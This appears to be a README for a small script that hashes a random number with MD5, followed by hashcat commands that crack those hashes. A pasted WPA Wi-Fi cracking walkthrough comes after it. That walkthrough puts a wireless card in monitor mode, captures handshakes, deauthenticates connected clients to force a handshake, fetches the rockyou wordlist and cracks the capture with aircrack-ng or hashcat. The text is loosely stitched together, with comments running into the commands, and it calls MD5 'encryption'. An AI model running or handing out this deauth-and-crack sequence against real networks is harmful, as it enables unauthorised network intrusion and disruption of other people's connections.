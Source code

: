 # Cryptography
Cryptography is a method of protecting information and communications through the use of codes so that only those for whom the information is intended can read and process it. The pre-fix "crypt" means "hidden" or "vault" and the suffix "graphy" stands for "writing."

# random-md5-generator 
creating a random password with md5sum encryption and then save the encrypted password in md5keys.txt

# How to use 
./random-md5-generator

Genateted Number:

879076701

-----------------------

Number to md5 Password:

82fc843ab6a4c1767572f75775800ae8  -


delete the  - from the file md5keys.txt

# crack with

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d


# then use 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show 

or 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show >> md5keys.txt

to see the unencypt keys 


# put your network device into monitor mode
airmon-ng start wlan0# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0# start listening for the handshake
airodump-ng -c 6 — bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0########## crack password with aircrack-ng… ########### download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap########## or crack password with naive-hashcat ########### convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
